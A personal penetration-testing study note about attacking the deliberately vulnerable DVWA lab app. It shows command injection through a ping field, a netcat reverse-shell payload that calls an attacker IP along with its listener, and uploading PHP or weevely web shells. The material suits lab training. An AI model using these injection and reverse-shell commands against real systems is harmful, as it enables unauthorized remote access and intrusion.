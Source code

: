 ```sh
dirb <URL>
```

_These tools are covered in other sections of this obsidan file._

---

**Remote Code Execution (RCE)**

DVWA login credentials
Username: admin
Password: password

We can use the metasploitable VM to test this in the DVWA website. Here, under command execution, it allows the user to use the ping command. If we add a `;` after entering a ping command the bash shell will do another command of our choice.
For example:

```sh
google.com; ls
```

You can see that it executes both commands. You could easily get the system to execute a reverse shell, or search for sensitive files etc.

Start netcat on the Kali machine
```sh
nc -l -v -p 4444
```
- l - Listen
- v - verbose

On the DVWA site
```sh 
google.com; nc -e /bin/bash <attacker-ip> 4444
```
- e - Executes a shell (can also use sh)

Gather some basic info:
```sh
whoami
id
uname -a
```

**Upload Vulnerability**

You can upload a reverse shell. You can then navigate to the file which will execute the code. You need to have your listener ready to catch the shell.

I like to use PentesterMonkey Reverse PHP shell located in Kali > exploits > PHP. Here is some of his other shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

We can also use tools like weevely:
```sh
sudo weevely generate 12345 /home/kali/shell.php
```
- 12345 - Attacker defined password
- /shell.php - Desired file location (would be put into the root directory)
- weevely seemed to have an issue looking for a module `telnetlib` and didn't work

